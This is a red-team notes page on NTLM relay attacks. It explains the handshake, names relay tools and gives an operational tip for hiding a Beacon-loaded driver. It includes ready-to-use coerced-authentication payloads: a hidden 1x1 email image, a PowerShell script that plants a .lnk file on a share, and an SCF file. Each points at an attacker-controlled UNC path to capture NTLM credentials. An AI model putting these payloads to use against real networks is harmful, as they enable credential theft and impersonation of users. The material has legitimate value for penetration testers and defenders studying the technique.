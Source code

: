 # NTLM Relaying
NTLM authentication uses a 3-way handshake between a client and server. The high-level steps are as follows:
1.  The client makes an authentication request to a server for a resource it wants to access.
2.  The server sends a challenge to the client, whereas the challenge is using the hash of the users password.
3.  The client sends the encrypted response to the server, which contacts a domain controller to verify the encrypted challenge is correct.

In an NTLM relay attack, an attacker is able to intercept or capture this authentication traffic and effectively allows them to impersonate the client against the same, or another service.

An example:  
A client attempts to connect to an SQL server, but the attacker monitors the authentication mechanism and impersonates/replays the handshake, to connect to the CIFS service as he was the client.

In case a linux host is available tools like
* [[Responder]]
* [[ntlmrelayx]]

can be used.

But on Windows port 445 is always in use so the SMB port needs to be bended by [[PortBender]] which will be reflective injected.

⚠️This pretty much breaks any SMB service on the machine.

#opsec: The loaded driver will be located in the current working directory of the Beacon so choose `C:\Windows\System32\drivers` before you run.  


## Force Authentication
If you don't have the possibilities to fetch a request try some force authentication methods as shown below.

### 1x1 Images in Emails
Send emails with an invisible 1x1 image embedded in the mail. When being viewed the email client will attempt to download the image over the UNC path and trigger an NTLM authentication attempt.
`<img src="\\10.10.10.21\test.ico" height="1" width="1" />`

### Windows Shortcuts
The icon property of the Windows shortcut (.lnk) can can be used by pointing it to an UNC path which will trigger an NTLM authentication attempt just by being viewed.

The easiest way to create a shortcut is with PowerShell.
``````powershell
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\dc1\share\test.lnk")
$shortcut.IconLocation = "\\10.10.10.21\test.ico"
$shortcut.Save()
``````

### SCF file
SCF (Shell Command Files) files can be used to access a specific UNC path. Paste the code below into a text file and store it on a network share.
``````@log.scf
[Shell]
Command=``2
IconFile=\\X.X.X.X\share\test.ico
[Taskbar]
Command=ToggleDesktop
``````

## Tools
########
########


```meta
ttp: T1557.001
requirements:
results: 
description: 
```